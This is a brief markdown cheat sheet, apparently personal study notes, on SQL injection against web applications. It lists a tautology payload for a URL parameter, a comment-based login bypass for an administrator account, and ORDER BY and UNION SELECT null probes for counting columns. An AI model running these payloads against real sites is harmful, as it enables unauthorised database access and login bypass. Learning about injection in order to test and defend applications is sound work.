 ```sql
--without any sanitization and using single quote

ex: http://link/?category=bike 

payload :  asdf' or 1=1 --


```

##### bypass login form : 

```sql
--without any sanitization and using single quote

username : administrator' --
password : asdf

```

##### enumerate columns :  

 use  UNION operator which allow us to make a second sql query.

-> prerequisite :<br>
    **1-same number of columns is return**<br>
    **2-compatibility in the return data type beetween queries**


-> First we need to enumerate the number of column using 'order by' clause : 

normal usage : 
```sql
order by ASC

order by DESC 

order by column_name

order by column_name ASC , column_name2 DESC

```


But the order by clause allows us to us index and enumerate the number of columns

 
```sql
'  order by 1 --  
'  order by 2 --
    etc...
```
Based on the behaviour of the application we can detect the number of column.

An other method is to use union operator to enumerate the number of column: 
```sql
' union select null --
' union select null,null --
' union select null,null,null --
...

```
**usage of null is preferable** than other data type because
null is convertible to common data type like integer, string ..
